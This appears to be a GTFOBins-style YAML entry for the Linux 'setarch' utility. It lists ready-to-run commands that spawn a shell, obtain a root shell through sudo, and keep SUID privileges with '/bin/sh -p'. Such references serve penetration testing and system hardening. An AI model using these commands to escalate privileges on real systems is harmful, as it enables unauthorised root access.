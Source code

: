 ```yaml
---
functions:
  exec-interactive:
    - code: setarch $(arch) /bin/sh
  sudo-enabled:
    - code: sudo setarch $(arch) /bin/sh
  suid-enabled:
    - code: ./setarch $(arch) /bin/sh -p
---
```

